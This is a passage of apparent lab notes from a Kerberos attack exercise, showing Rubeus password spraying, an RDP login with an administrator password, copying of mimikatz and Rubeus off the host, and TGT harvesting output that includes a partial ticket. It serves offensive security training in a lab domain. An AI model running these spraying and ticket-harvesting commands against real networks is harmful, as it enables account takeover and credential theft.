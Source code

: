 Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command: 

echo 10.10.59.104 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts

1.) cd Downloads - navigate to the directory Rubeus is in

2.) Rubeus.exe brute /password:Password1 /noticket - This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user 

![](https://i.imgur.com/WN4zVo5.png)

Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.

```
xfreerdp /u:Administrator /p:'P@$$W0rd' /v:10.10.59.104 /size:90%
```

```enter P@$$W0rd
scp Administrator@10.10.59.104:C:/Users/Administrator/Downloads/mimikatz.exe /home/kali/Downloads/learning_kerberos 
```
```get 
scp Administrator@10.10.59.104:C:/Users/Administrator/Downloads/Rubeus.exe /home/kali/Downloads/learning_kerberos 
```

```
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe h
arvest /interval:30
 
   ______        _
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: TGT Harvesting (with auto-renewal) 
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds


[*] Refreshing TGT ticket cache (8/20/2022 10:51:53 AM)

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL 
  StartTime             :  8/20/2022 10:05:33 AM
  EndTime               :  8/20/2022 8:05:33 PM
  RenewTill             :  8/27/2022 10:05:33 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forw
ardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUy
iJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEgnF37ZFGONrzNV
```